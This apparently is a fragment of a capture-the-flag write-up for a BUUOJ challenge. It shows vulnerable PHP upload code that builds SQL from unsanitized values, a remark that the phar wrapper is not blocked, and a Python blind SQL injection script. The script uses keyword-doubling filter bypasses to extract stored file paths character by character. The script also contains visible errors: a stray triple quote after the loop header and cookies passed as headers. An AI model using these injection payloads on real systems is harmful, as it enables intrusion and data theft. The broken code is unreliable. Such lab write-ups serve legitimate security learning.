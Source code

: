 ```php
    if($fileExtensionCheck){
        die("Only upload image file!");
    }
    if($fileTypeCheck){
        
        $fileOldName = addslashes(pathinfo($_FILES['file']['name'],PATHINFO_FILENAME));
        $fileNewName = './Up10aDs/' . random_str() .'.'.pathinfo($_FILES['file']['name'],PATHINFO_EXTENSION);
        $userid = $_SESSION['userid'];
        $sql= "insert into `download` (`uid`,`image_name`,`location`) values ($userid,'$fileOldName','$fileNewName')";
        $res = $conn ->query($sql);
        if($res&&move_uploaded_file($_FILES['file']['tmp_name'], $fileNewName)){
         echo "<script>alert('file upload success!');window.location.href='index.php?file=home'</script>";

        }else{
             echo "<script>alert('file upload error')</script>";
        }

    }else{

        echo "<script>alert('file  type error');</script>";
    }

}

?>
```

伪协议只ban了php伪协议可以phar

```python
import requests
import libnum
from time import sleep

url = "http://55c6b070-3b04-4ef1-a3e0-4c60aade7d09.node4.buuoj.cn:81/downfile.php"
paramsPost = {"image":"","image_download":"\x6536\x85cf"}
payload = "-1 uniunionon seselectlect location from download whwhereere location regregexpexp 0x557031306144732f{}"
cookies = {"_ga_P7C4RLLHKT":"GS1.1.1664796950.2.0.1664796950.0.0.0","_ga":"GA1.1.1509509376.1664764551","PHPSESSID":"h842i963spa3823nlebpufuir4"}
strs = "abcdefghijklmnopqrstuvwxyz0123456789"

flag = ''
while True:'''
    for str in strs:
        location = hex(ord(str))[2:]
        paramsPost["image"] = payload.format(flag+location)
        r = requests.post(url, data=paramsPost,  cookies=cookies)
        if "picture can't be find!" in r.text:
            continue
        if r.status_code != 200:
            sleep(1)
            r = requests.post(url, data=paramsPost, headers=cookies)
        else:
            flag += location
            print(libnum.n2s(int(flag,16)))
            break
```
